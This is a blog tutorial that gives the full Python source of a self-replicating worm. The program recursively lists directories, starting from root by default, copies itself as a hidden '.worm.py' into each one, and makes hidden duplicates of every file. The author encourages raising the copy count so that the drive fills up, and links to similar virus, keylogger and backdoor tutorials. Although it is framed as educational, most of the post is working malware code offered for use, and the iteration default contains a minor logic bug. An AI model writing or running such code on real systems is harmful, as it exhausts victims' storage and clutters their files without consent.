 ```yaml
---
layout: single
title: "Write a Simple Worm (Malware) in Python"
excerpt:  "Writing a worm in Python can seem like a daunting task, but it's an excellent way to learn about computer security and how these types of programs work. In this blog post, I'll show you how to write a basic, harmless worm, all while gaining valuable knowledge about how these programs operate. By following our step-by-step instructions and learning about the inner workings of a worm, you'll be able to create a functional program that won't cause any damage to your system. So, if you're interested in exploring the world of computer security, read on and discover how to write your own educational worm in Python."
seo_title:  "Learn to Write a Basic Harmless Worm (Malware) in Python"
seo_description:  "Want to understand how a worm works? In this blog post, you'll learn how to write a basic educational harmless worm (malware) in Python. With step-by-step instructions, you'll explore the underlying mechanisms of a worm and learn how to create your own version that won't harm your system."
header:
  image: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Worm
  - Virus
  - Malware
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


`Worm` is type of malware that replicates itself and other files to consume spaces in our hard drives. You may find your drives or partitions get full without any visible reason and that might happen because of a `worm`.

A Worm is different than a computer Virus in a way that typical viruses only infects files and worms replicates files and keep the duplicates out of sight (as hidden files).

In this post, we will learn what are the characteristics of a Worm by writing a basic one in python. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [A Basic Keylogger in Python](https://shantoroy.com/security/a-simple-keylogger-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
We will need two modules to write a `worm`. Here, `os` is the most important module and we will utilize it to list all files and directories alongside retrieving the absolute paths.

`shutil` is used to copy file contents. There are obviously other ways to do it, however, I chose to do it using `shutil.copyfile()` method.
```python
import os
import shutil
```

## `Worm` Class
First, let's create a `Worm` class and a initializer method to pass initial arguments to our created class. 
```python
class Worm:
    
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path = "/"
        else:
            self.path = path
            
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list = []
        else:
            self.target_dir_list = target_dir_list
            
        if isinstance(target_dir_list, type(None)):
            self.iteration = 2
        else:
            self.iteration = iteration
        
        # get own absolute path
        self.own_path = os.path.realpath(__file__)
```

Here, we have three arguments:
* path: defines where to start looking for directories (default is set to the `root` directory `/`)
* target_dir_list: user can pass a list of initial target directories. By default it is an empty list `[]`
* iteration: I used this parameter to define how many instances the worm will create for each existing file in a directory (default value is `2` only for testing purpose, you can increase or decrease the number, or better provide valur while creating an object of the class)

### Method to list all Directories and Subdirectories
The first method we need is to list all the target directories and subdirectories where we want to copy our worm and existing files in the directories.

Here, I am avoiding hidden files as it includes the parent directories as well (hidden files starts with dot `.` in Linux or macOS). Other than that it adds a file (directories are also called as `file` in Unix-based file systems) if it is a directory and recursively does so for all of the subdirectories.
```python
    def list_directories(self,path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)
        
        for file in files_in_current_directory:
            # avoid hidden files/directories (start with dot (.))
            if not file.startswith('.'):
                # get the full path
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
```

### Method to Replicate the Worm
To replicate the script itself in all the target directories, we get the absolute path of the script we are running, and than copy the contents in the destination directories creating a new hidden file (starts with a dot `.`) with the same name.
```python
    def create_new_worm(self):
        for directory in self.target_dir_list:
            destination = os.path.join(directory, ".worm.py")
            # copy the script in the new directory with similar name
            shutil.copyfile(self.own_path, destination)
```

### Method to copy existing Files
The following method will be used to duplicate files the number of times the value we have from the `iteration` argument. You can put a large number so that the hard drive will be full soon.
```python
    def copy_existing_files(self):
        for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,("."+file+str(i)))
                        shutil.copyfile(source, destination)
```

### Method to integrate everything
In this method, we will call all of our previous methods. So, when we call this method using our created object, the worm will start all the actions sequentially. If you want a timer or datetime, you can add that functionality. Just check the post: [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/). I have added functionality in that post.
```python
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_files()
```

## Main Function
Now, let’s create our main function and run the code
```python
if __name__=="__main__":
    current_directory = os.path.abspath("")
    worm = Worm(path=current_directory)
    worm.start_worm_actions()
```
The whole code is available in [Github](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/worm/worm.py)

Here, to avoid getting our own drive filled up, let's use the existing directory only using `os.path.abspath("")`, and pass that as argument while creating an object of the `Worm` class. Finally we call the integrating method and we are good to go!

You can look at other security concept tutorials in python. I have created a repository for that. I am planning to provide security concepts by writing python codes. Please feel free to put a star if you like the repository.

[Intro to Cybersecurity in Python](https://github.com/shantoroy/intro-2-cybersecurity-in-python)

Also, the associated blog post links are available in the `ReadMe` file over there.

Have a good day! Cheers!!!




<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE1MzQxMzA2MjcsNTAxMDYxMDg5LC0yOT
U2OTEwMTMsMjk4OTMzMzU0LC0xOTgxNzQyNjU1LDEzNTQxMTU2
ODNdfQ==
-->